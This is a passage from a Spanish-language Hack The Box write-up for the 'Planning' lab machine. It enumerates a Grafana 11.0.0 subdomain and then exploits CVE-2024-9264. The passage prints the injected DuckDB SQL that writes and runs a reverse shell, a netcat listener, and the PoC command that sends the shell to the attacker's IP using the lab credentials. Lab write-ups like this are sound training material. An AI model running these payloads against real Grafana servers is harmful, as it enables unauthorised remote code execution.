 Con el nuevo subdominio incorporado, podemos realizar un nuevo escaneo de tecnologías web antes de visitar el subdominio en el navegador

~~~ bash
whatweb http://grafana.planning.htb   
http://grafana.planning.htb [302 Found] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], RedirectLocation[/login], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-XSS-Protection[1; mode=block], nginx[1.24.0]

http://grafana.planning.htb/login [200 OK] Country[RESERVED][ZZ], Grafana[11.0.0], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], Script[text/javascript], Title[Grafana], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block], nginx[1.24.0]
~~~

Cuando visitemos `grafana.planning.htb`, el servidor automáticamente nos redirige a `/login`

![image-center](/assets/images/posts/planning-grafana.png)
{: .align-center}

Iniciaremos sesión con las credenciales que nos proporcionaron al comienzo de la máquina


## Grafana DuckDB SQL Injection (CVE-2024-9264)

La versión de Grafana que se utiliza en este servicio corresponde a la `v11.0.0`. Realizando una pequeña investigación, encontraremos que esta versión contiene un CVE relacionado con SQL Injection, podemos obtener una prueba de concepto (PoC) en el siguiente [repositorio](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit).

En este exploit se realizan consultas SQL maliciosas que son utilizadas para almacenar un recurso `rev`, que más tarde ejecuta para enviarnos una reverse shell

~~~ python
# Guarda una reverse shell en /tmp/rev
"expression": f"SELECT 1;COPY (SELECT 'sh -i >& {reverse_shell_command}') TO '/tmp/rev';"

# Ejecuta el recurso /tmp/rev
"expression":"SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('bash /tmp/rev |');"
~~~

Antes de ejecutar el exploit, pondremos un puerto a la escucha, en mi caso, el `443`, que será el puerto por el cual recibiré la conexión

~~~ bash
nc -lvnp 443
~~~

Ejecutaremos el exploit enviando los siguientes parámetros, tales como la URL de Grafana, las credenciales que utilizamos para iniciar sesión en el servicio, y los datos de nuestro listener, recuerda usar tu IP de HTB en el parámetro `--remote-ip`

~~~ bash
python3 poc.py --url http://grafana.planning.htb/ --username admin --password '0D5oT70Fq13EvB5r' --reverse-ip 10.10.14.169 --reverse-port 443 

[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 443
~~~
